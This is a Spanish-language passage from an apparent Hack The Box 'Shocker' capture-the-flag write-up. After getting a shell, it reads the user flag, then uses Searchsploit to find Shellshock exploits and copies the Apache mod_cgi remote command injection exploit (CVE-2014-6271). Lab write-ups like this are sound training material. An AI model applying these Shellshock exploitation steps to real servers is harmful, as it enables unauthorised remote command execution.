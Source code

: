 ¡Y estamos dentro! Busquemos la flag del usuario:
```bash
shelly@Shocker:/usr/lib/cgi-bin$ cd /home
cd /home
shelly@Shocker:/home$ ls
ls
shelly
shelly@Shocker:/home$ cd shelly 
cd shelly
shelly@Shocker:/home/shelly$ ls
ls
user.txt
shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt
```
Antes de escalar privilegios, veamos otras formas de aplicar el **ataque Shellshock**.

<h2 id="PruebaExp">Probando Exploit: Apache mod_cgi - 'Shellshock' Remote Command Injection</h2>

Existe un Exploit que podemos usar para poder conectarnos de manera remota, busquémoslo con **Searchsploit**:
```bash
searchsploit shellshock
------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                              |  Path
------------------------------------------------------------------------------------------------------------ ---------------------------------
Advantech Switch - 'Shellshock' Bash Environment Variable Command Injection (Metasploit)                    | cgi/remote/38849.rb
Apache mod_cgi - 'Shellshock' Remote Command Injection                                                      | linux/remote/34900.py
Bash - 'Shellshock' Environment Variables Command Injection                                                 | linux/remote/34766.php
Bash CGI - 'Shellshock' Remote Command Injection (Metasploit)                                               | cgi/webapps/34895.rb
Cisco UCS Manager 2.1(1b) - Remote Command Injection (Shellshock)                                           | hardware/remote/39568.py
dhclient 4.1 - Bash Environment Variable Command Injection (Shellshock)                                     | linux/remote/36933.py
GNU Bash - 'Shellshock' Environment Variable Command Injection                                              | linux/remote/34765.txt
IPFire - 'Shellshock' Bash Environment Variable Command Injection (Metasploit)                              | cgi/remote/39918.rb
...
```
El que nos interesa es el **Apache mod_cgi - 'Shellshock' Remote Command Injection**, vamos a probarlo.

Primero, copiemos el Exploit en nuestro espacio de trabajo:
```bash
searchsploit -m linux/remote/34900.py
  Exploit: Apache mod_cgi - 'Shellshock' Remote Command Injection
      URL: https://www.exploit-db.com/exploits/34900
     Path: /usr/share/exploitdb/exploits/linux/remote/34900.py
    Codes: CVE-2014-6278, CVE-2014-6271
 Verified: True
File Type: Python script, ASCII text executable
```
